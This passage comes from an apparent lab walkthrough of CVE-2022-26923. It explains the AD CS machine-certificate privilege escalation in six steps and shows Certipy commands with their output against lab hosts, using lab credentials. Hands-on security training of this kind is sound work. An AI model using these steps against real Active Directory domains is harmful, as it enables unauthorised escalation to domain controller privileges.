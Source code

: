 Using these configurations, the default AD CS Machine certificate template, the default ability to enrol a new machine, and the default permissions assigned on the created Computer AD Object, we have a privilege escalation vector on our hands. What makes it worse is that this privilege escalation vector requires minimal effort, meaning the attacker’s skill level to exploit this issue is quite low. The basic steps are the following:

1. Compromise the credentials of a low-privileged AD user.
2. Use those credentials to enrol a new host on the domain.
3. Alter the DNS hostname attribute of the Computer AD Object to that of a privileged host, such as a Domain Controller.
4. Remove the SPN attributed to bypass the unique SPN conflict issue.
5. Request a Machine certificate using the default template.
6. Perform Kerberos authentication with the received template, now as the privileged machine account instead of our fake machine account.

In the next task, we will practically perform these steps!

## Exploiting CVE-2022-26923

Now that we have covered the theory. Let’s see it in action.

### Configuring DNS

First, we need to configure some DNS values. Modify your `/etc/hosts` file and add the following entry:

```
MACHINE_IP lundc.lunar.eruca.com lundc lunar-LUNDC-CA lunar.eruca.com
```

### Testing Certificate Generation

Similar to the blog post, we will use [Certipy](https://github.com/ly4k/Certipy) for our exploitation, which has been installed for you on the AttackBox. Certipy is an offensive tool for enumeration and exploitation of AD CS vulnerabilities and misconfigurations. It integrates with [Impacket](https://github.com/SecureAuthCorp/impacket) for some of the exploits, so if you are installing this on your own machine, make sure to update Impacket as well. We have created a virtual python environment with all of these tools. If you are using the AttackBox, start by activating the virtual environment:

```
[thm@thm]$ source /root/Rooms/CVE2022-26923/certipy/bin/activate
```

Let’s first get our feet wet with generating a certificate for our low-privileged AD user (Username=thm Password=Password1@) using the User certificate template:

```
(certipy) [thm@thm]$ certipy req 'lunar.eruca.com/thm:Password1@@lundc.lunar.eruca.com' -ca LUNAR-LUNDC-CA -template User
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 20
[*] Got certificate with UPN 'thm@lunar.eruca.com'
[*] Saved certificate and private key to 'thm.pfx'
```
